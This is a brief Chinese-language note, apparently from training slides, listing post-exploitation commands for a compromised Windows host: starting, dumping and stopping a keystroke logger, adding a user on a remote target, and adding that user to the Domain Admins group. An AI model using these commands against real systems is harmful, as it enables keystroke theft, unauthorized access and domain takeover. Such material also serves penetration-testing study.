

# 键盘记录
keyscan_start：开启键盘记录功能 那边敲 这边通过

keyscan_dump：显示捕捉到的键盘记录信息

keyscan_stop：停止键盘记录

add_user username password -h ip    #在远程目标主机上添加一个用户
也可以使用shell 调用windows cmd
add_group_user "Domain Admins" username -h ip    #将用户添加到目标主机的域管理员组中